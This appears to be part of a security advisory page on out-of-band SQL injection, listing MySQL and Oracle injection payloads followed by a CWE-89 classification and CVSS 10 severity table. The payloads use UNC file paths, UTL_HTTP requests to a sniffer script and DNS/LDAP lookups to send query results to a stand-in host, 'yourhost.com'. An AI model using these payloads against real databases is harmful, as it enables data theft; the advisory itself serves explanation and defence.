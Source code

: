 Makes DNS resolution request to {INJECTION}.yourhost.com

{INJECTION} = You want to run the query.

### MySQL

- ?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), 'yourhost.com\\')))

Makes a NBNS query request/DNS resolution request to yourhost.com

- ?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt')

Writes data to your shared folder/file
{INJECTION} = You want to run the query.

### Oracle

- ?vulnerableParam=(SELECT UTL_HTTP.REQUEST('http://host/ sniff.php?sniff='||({INJECTION})||'') FROM DUAL)

Sniffer application will save results

- ?vulnerableParam=(SELECT UTL_HTTP.REQUEST('http://host/ '||({INJECTION})||'.html') FROM DUAL)

Results will be saved in HTTP access logs

- ?vulnerableParam=(SELECT UTL_INADDR.get_host_addr(({INJECTION})||'.yourhost.com') FROM DUAL)

You need to sniff dns resolution requests to yourhost.com

- ?vulnerableParam=(SELECT SYS.DBMS_LDAP.INIT(({INJECTION})||'.yourhost.com',80) FROM DUAL)

You need to sniff dns resolution requests to yourhost.com
{INJECTION} = You want to run the query.

## Vulnerability Classification and Severity Table

| Classification | ID / Severity |
| --- | --- |
| PCI v3.1 | 6.5.1 |
| PCI v3.2 | 6.5.1 |
| OWASP 2013 | A1  |
| CWE | 89  |
| CAPEC | 66  |
| WASC | 19  |
| HIPAA | 164.306(a), 164.308(a) |
| CVSS 3.0 Score |
| Base | ** 10 (Critical) |
| Temporal | ** 10 (Critical) |
| Environmental | ** 10 (Critical) |
| CVSS Vector String |
| CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H |